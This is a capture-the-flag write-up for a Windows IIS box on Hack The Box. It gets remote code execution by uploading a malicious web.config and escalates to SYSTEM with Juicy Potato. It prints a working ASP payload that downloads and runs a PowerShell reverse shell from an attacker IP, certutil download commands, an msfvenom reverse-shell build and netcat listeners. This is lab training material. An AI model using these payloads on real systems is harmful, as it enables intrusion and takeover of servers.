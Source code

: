 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🧭 Reconnaissance

### ⚡ Fast Port Scan
```bash
export IP=10.10.10.93
rustscan --ulimit 5000 -a $IP -- -A -sC -oN recon/$IP.scan.rustscan.txt
```

### 📌 Result Summary:
- **Port 80** open (HTTP)
- **Service**: Microsoft IIS 7.5
- **Server OS**: Windows Server 2008 R2

---

## 🌐 [Web Enumeration](HTTP)

### 📁 Directory Enumeration via ShortScan
```bash
shortscan -F http://$IP/
```

### ✅ Discovered Pages:
- `/transfer.aspx` – file upload endpoint
- `/uploadedfiles/` – public directory, potentially for uploaded files

---

## 💣 Exploitation – File Upload Bypass via `web.config`

### 🔍 Goal:
Bypass file extension filtering and achieve **Remote Code Execution** (RCE).

### 🧪 Technique:
1. Used **Burp Intruder** to fuzz file extensions during upload.
2. `.config` was accepted (unexpected but powerful).

### 📝 Malicious `web.config` Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll" 
              resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/>
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions><remove fileExtension=".config"/></fileExtensions>
            <hiddenSegments><remove segment="web.config"/></hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.72/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 🛰️ Reverse Shell

### 🧪 Using Nishang:
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.72 -Port 4444" >> Invoke-PowerShellTcp.ps1
updog -p 80  # serve payload
```

### 🧲 Listener (with rlwrap for convenience):
```bash
rlwrap -f . -r nc -nlvp 4444
```

### 🚀 Trigger Shell:
- Upload `web.config` via `/transfer.aspx`
- Visit `/uploadedfiles/web.config` to execute
- ✅ You get a reverse shell as user `merlin`

---

## 🏁 User Flag
```bash
C:\Users\merlin\Desktop> type user.txt
```

---

## 🚀 Privilege Escalation – Juicy Potato

### 📌 Key Privilege:
```bash
whoami /priv
# SeImpersonatePrivilege: Enabled ✅
```

### ⚙️ Transfer Juicy Potato:
```powershell
certutil -urlcache -split -f http://10.10.16.72/JuicyPotato.exe jp.exe
```

### 💣 Generate Reverse Shell (64-bit):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.72 LPORT=443 -f exe -o reverse.exe
```

### 📥 Transfer payload:
```powershell
certutil -urlcache -split -f http://10.10.16.72/reverse.exe reverse.exe
```

---

## 🎯 Execute PrivEsc
```powershell
.\jp.exe -l 1337 -p reverse.exe -t *
```

Start listener:
```bash
rlwrap -f . -r nc -nlvp 443
```

### ✅ Shell as SYSTEM

---

## 🔐 Root Flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 📚 Lessons Learned

### 🔓 Initial Access:
- Exploited **file upload bypass** using `.config` file
- Abused ASP handler config to execute malicious code

### 📈 Privilege Escalation:
- Leveraged **SeImpersonatePrivilege** with Juicy Potato for SYSTEM access

### 🛡️ Mitigations:
- Harden file uploads: restrict extensions, validate contents, isolate directories
- Restrict SeImpersonatePrivilege to trusted services
- Patch critical systems (this was Windows Server 2008 R2 – unpatched!)

---

## 🎥 [VOD Replay](https://www.twitch.tv/deadpool3020/v/2346652668?sr=a&t=6s)

---

Let me know if you'd like this exported as a `.md` or turned into a downloadable report. Ready for the next target? 🧠💀